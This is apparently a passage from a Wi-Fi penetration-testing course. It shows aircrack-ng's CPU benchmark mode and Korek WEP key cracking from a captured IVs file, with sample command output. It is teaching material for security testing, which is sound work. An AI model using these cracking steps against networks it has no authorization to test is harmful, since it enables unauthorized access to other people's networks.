 * * *

#### Aircrack-ng Benchmark

By now, we know `aircrack-ng` is a powerful tool designed for network security testing, capable of cracking WEP and WPA/WPA2 networks that use pre-shared keys or PMKID. As an offline attack tool, it works with captured packets and does not need direct interaction with any Wi-Fi device.

Prior to commencing password/key cracking with aircrack-ng, it may be beneficial to assess the benchmark of the host system, so we may ensure its ability to execute brute-force attacks effectively. For this, we will use the built-in benchmark mode, supplying the `-S` option to test CPU performance.

```shell
aircrack-ng -S

1628.101 k/s

```

The above output estimates that our CPU can crack approximately 1,628.101 passphrases per second. Since `aircrack-ng` fully utilizes the CPU, the cracking speed can decrease significantly if other demanding tasks are also running on the system.

* * *

#### Korek WEP Cracking

As we've seen in previous sections, `aircrack-ng` is capable of recovering the WEP key once a sufficient number of encrypted packets have been captured using `airodump-ng`. The `-w` option in `airodump-ng` saves the traffic into a `.cap` file. However, it is also possible to save only the captured initialization vectors using the `--ivs` option. Once enough IVs are captured, we can utilize the `-K` option in aircrack-ng, which invokes the Korek WEP cracking method to crack the WEP key.

```shell
aircrack-ng -K HTB.ivs

Reading packets, please wait...
Opening HTB.ivs
Read 567298 packets.

   #  BSSID              ESSID                     Encryption

   1  B1:A3:94:21:7F:1A                            WEP (0 IVs)

Choosing first network as target.

Reading packets, please wait...
Opening HTB.ivs
Read 567298 packets.

1 potential targets

                                             Aircrack-ng 1.6

                               [00:00:17] Tested 1741 keys (got 566693 IVs)

   KB    depth   byte(vote)
    0    0/  1   AB(  50) 11(  20) 71(  20) 0D(  12) 10(  12) 68(  12) 84(  12) 0A(   9)
    1    1/  2   C7(  31) BD(  18) F8(  17) E6(  16) 35(  15) 7A(  13) 7F(  13) 81(  13)
    2    0/  3   7F(  31) 74(  24) 54(  17) 1C(  13) 73(  13) 86(  12) 1B(  10) BF(  10)
    3    0/  1   3A( 148) EC(  20) EB(  16) FB(  13) 81(  12) D7(  12) ED(  12) F0(  12)
    4    0/  1   03( 140) 90(  31) 4A(  15) 8F(  14) E9(  13) AD(  12) 86(  10) DB(  10)
    5    0/  1   D0(  69) 04(  27) 60(  24) C8(  24) 26(  20) A1(  20) A0(  18) 4F(  17)
    6    0/  1   AF( 124) D4(  29) C8(  20) EE(  18) 3F(  12) 54(  12) 3C(  11) 90(  11)
    7    0/  1   DA( 168) 90(  24) 72(  22) F5(  21) 11(  20) F1(  20) 86(  17) FB(  16)
    8    0/  1   F6( 157) EE(  24) 66(  20) DA(  18) E0(  18) EA(  18) 82(  17) 11(  16)
    9    1/  2   7B(  44) E2(  30) 11(  27) DE(  23) A4(  20) 66(  19) E9(  18) 64(  17)
```